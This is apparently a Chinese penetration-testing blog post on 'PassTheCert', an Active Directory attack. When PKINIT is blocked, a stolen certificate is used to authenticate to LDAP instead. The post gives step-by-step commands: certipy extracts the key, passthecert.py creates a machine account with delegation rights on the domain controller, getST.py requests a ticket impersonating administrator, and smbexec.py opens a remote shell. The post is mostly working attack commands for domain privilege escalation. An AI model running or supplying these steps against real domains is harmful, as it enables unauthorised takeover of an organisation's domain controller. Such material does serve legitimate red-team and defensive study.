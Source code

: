 ```yaml
---
title: "PassTheCert"
date: 2023-09-21 10:09:23 +0800
category: 渗透测试
tags: [内网,渗透测试,ADCS,域]
excerpt: PassTheCert
---
```

当我们获得了目标的证书后，第一想法肯定是通过PKINIT Kerberos认证获得目标的Hash。但是有些场景下，目标环境中会不允许进行PKINIT Kerberos认证
![image-20230310152842599](imgs/PassTheCert/image-20230310152842599.png)
研究发现微软的官方文档中提到了，当进行LDAP连接时，如果客户端向DC提供了一个有效的证书，那么DC可以使用该证书作为证书所表示的凭据进行认证连接也就是说我们可以使用证书来进行LDAP认证，然后利用LDAP来进行各种高危操作，比如创建机器用户，赋予基于资源的约束性委派RBCD等。

## 提取证书中的密钥和证书
```
certipy cert -pfx user.pfx -nokey -out user.crt
certipy cert -pfx user.pfx -nocert -out user.key
```
## 利用过程
+ 使用证书进行ldap认证,并建立机器账号,并设置委派属性
```
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain s.com -dc-ip 10.10.10.146 -port 636 -computer-name newcomputer$ -delegated-services cifs/dc.s.com,ldap/dc.s.com
```
+ 进行委派攻击,请求票据
```
getST.py -dc-ip dc.s.com s.com/newcomputer\$:密码 -spn cifs/dc.s.com -impersonate administrator
```
+ 使用票据
```
export KRB5CCNAME=administrator.ccache
smbexec.py -k -no-pass dc.s.com
```